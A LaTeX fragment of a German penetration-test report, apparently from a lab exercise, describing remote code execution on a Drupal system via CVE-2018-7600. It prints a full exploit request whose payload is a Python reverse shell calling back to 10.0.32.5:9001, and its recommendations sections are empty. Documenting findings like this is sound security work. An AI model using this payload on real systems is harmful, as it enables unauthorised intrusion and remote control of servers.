 \subsection*{Empfehlungen}


\section{\makecvssbadge Maggot's Pilzboard: Remote Code Execution}

\subsection*{Proof of concept}
Über einen bekannten Exploit mit der CVE Nummer CVE-2018-7600 kann Code auf dem kompromitiertem Drupal System ausgeführt werden. Dies ermöglicht es direkt eine Reverse Shell zu dem System herstellen zu können. Der HTTP Request des Exploits kann mit einem Tool wie der Burpsuite intercepted und die Payload angepasst werden. Die Playoad zum Starten einer Reverse Shell ist in folgendem Listing aufgeführt:


\begin{listing}[!ht]
\begin{verbatim}
POST /routers/cancel-order.php HTTP/1.1 
Host: 10.0.68.122
[...]
'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'python3+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket. SOCK_STREAM)%3bs.connect(("10.0.32.5",9001))%3bos.dup2(s.fileno(),0)%3b+os.dup2( s.fileno(),1)%3b+os.dup2(s.fileno(),2)%3bp%3dsubprocess.call(["/bin/sh","-i"])%3b''
\end{verbatim}
\caption{Reverse Shell}
\label{listing:pilzboard:reverseshell}
\end{listing}

\subsection*{Empfehlungen}